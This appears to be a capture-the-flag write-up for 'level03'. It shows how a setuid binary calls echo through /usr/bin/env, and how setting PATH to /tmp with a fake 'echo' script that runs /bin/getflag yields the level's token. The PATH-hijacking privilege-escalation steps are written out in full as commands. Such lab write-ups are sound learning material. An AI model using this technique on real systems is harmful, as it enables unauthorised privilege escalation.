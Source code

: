 When we started the level02, in the home of the user we found the binary **level03**

it prints:
```bash
Exploit me
```

Let's disasemble it:
first let's check the strings in the binary with:
```bash
strings level03
```

we can see this line:
```
/usr/bin/env echo Exploit me
```

It seems like the binary use the environement to find the path for echo, then it prints *Exploit me*

We can confirm it with gdb:

```bash
gdb ./level03
```

```gdb
(gdb) info functions
All defined functions:

File /home/user/level03/level03.c:
int main(int, char **, char **);
```

The main use int (argc), char**(argv), char**(envp).
So if we **delete the PATH variable in env**, the binary can't find echo.

So... we can redefine a path to a custom echo !
lets create it:

```bash
cd tmp
vim echo
```

```bash
#!/bin/bash
/bin/getflag
```

```bash
chmod +x echo
```

then we redefine the PATH:

```bash
export PATH="/tmp"
```

and the binary give us:
```bash
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

```